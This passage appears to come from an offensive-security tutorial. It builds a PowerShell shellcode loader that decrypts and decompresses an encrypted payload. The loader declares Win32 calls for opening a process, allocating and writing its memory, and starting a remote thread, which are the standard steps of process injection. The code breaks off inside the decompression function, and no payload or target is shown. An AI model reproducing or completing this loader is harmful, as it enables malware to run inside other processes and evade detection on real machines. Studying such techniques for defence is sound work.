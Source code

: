 Great, now all we have to do is implement the functions in the script like this:

```
# First decrypt the data
$compressed = Decrypt -FullData $encrypted

# Then decompress the data
$shellcode = Decompress -Data $compressed -CompressionAlgorithm 'deflate9'
```

The final source looks like this:

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 
{
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr OpenProcess(uint DesiredAccess, bool                   bInheritHandle, int ProcessID);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr Process, IntPtr                  StartAddress, UIntPtr shellcodeSize, uint AllocationType, uint                     MemProtectConstraint);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool WriteProcessMemory(IntPtr Process, IntPtr StartAddr,     byte[] Shellcode, uint shellSize, out UIntPtr BytesWritten);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr CreateRemoteThread(IntPtr Process, IntPtr              threadAttrib, uint stackSize, IntPtr shellcodeAddr, IntPtr additionalParams,       uint creationFlags, out IntPtr lpThreadId);
}
"@
Add-Type $Win32

# Function for decompressing data
function Decompress 
{
    param 
    (
        [byte[]]$Data, [ValidateSet('deflate9', 'gzip', 'none')]                           [string]$CompressionAlgorithm
    )

    $deflateStream = $null
    $gzipStream = $null
    $compressedStream = $null
    $decompressedStream = $null

    try
    {
        if ($CompressionAlgorithm -eq 'none') 
        {
            return $Data
        }

        $compressedStream = [System.IO.MemoryStream]::new($Data)
        $decompressedStream = [System.IO.MemoryStream]::new()

        if ($CompressionAlgorithm -eq 'deflate9') 
        {
```